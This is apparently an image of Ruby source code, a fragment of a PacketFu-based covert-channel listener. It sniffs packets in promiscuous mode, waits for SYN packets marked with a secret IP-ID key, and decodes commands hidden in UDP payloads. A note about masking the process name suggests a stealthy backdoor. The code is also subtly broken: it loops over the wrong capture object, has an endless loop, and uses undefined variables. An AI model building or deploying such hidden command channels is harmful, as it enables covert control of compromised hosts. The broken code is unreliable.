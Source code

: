```
pkt.tcp_win = 8192  # TCP header: Window
pkt.tcp_hlen = 5    # TCP header: header length
pkt.tcp_src = srcPort   # TCP header: Source Port (random is the default )
pkt.tcp_dst = dstPort   # TCP header: Destination Port (make it random/range for general scanning)
pkt.recalc  # Recalculate/re-build whole pkt (should be at the end)
return pkt
end

def dataListener(identKey,dstIP,dstPort)
# Listen for UDP data packets
print "Listening for Data from #{dstIP}\n"
capturedUDP = PacketFu::Capture.new(:iface => $config[:iface], :start => true, :promisc => true, :filter => "udp and port #{dstPort}")

capturedTCP.stream.each { |packet|
    pkt = Packet.parse packet
    if pkt.ip_id == identKey
        # Get Packet Type
        if userCmdField == "src-port"
            dataType = pkt.udp_src
        elsif userCmdField == "dst-port"
            dataType = pkt.udp_dst
        end

        if dataType == userCmdRun
            cmdLen = pkt.payload[0].unpack("c*")
            cmd = ""
            while i <= cmdLen do
                cmd += pkt.payload[i].unpack("h*")
            end
            print "Command: #{cmd}\n"
        end
    end
}
end
# - - - - Begin Main

# Get config from file
loadConfig("/path/to/file.txt")

#$config = PacketFu::Config.new(PacketFu::Utils.whoami?(:iface=> iName)).config # set interface
$config = PacketFu::Config.new(:iface=> $iName).config # use this line instead of above if you face `whoami?': uninitialized constant PacketFu::Capture (NameError)

#TODO: Mask process name from config

# Create sessions array (Holds threads)
sessions = []
Signal.trap('INT') { exit 0 }
begin 
# Start listening for connection packets via TCP
print "starting up\n"
capturedTCP = PacketFu::Capture.new(:iface => $config[:iface], :start => true, :promisc => true, :filter => "tcp")
print "about to capture\n"
capturedTCP.stream.each { |packet|
    puts "Got one!"
    pkt = Packet.parse packet
    # Check that it is a TCP packet?
    if pkt.is_tcp?
        # Is it one of our SYN packets?
        if pkt.tcp_flags.syn == 1 && pkt.ip_id == $identKey
            # TODO: Respond with SYN/ACK
```